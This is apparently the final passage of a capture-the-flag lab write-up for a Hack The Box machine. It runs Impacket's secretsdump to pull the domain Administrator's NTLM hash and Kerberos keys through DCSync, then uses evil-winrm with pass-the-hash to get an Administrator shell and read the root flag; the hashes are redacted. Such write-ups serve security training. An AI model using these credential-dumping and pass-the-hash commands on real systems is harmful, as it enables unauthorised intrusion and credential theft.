secretsdump.py 'htb.local/APT$@apt6.htb' -hashes :<REDACTED_HASH> -just-dc-user Administrator
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED_HASH>:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:<REDACTED_HASH>
Administrator:aes128-cts-hmac-sha1-96:<REDACTED_HASH>
Administrator:des-cbc-md5:<REDACTED_HASH>
[*] Cleaning up...
Shell as Administrator — Root Flag
evil-winrm -i apt6.htb -u Administrator -H <REDACTED_HASH>
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
<ROOT_FLAG>
Rooted!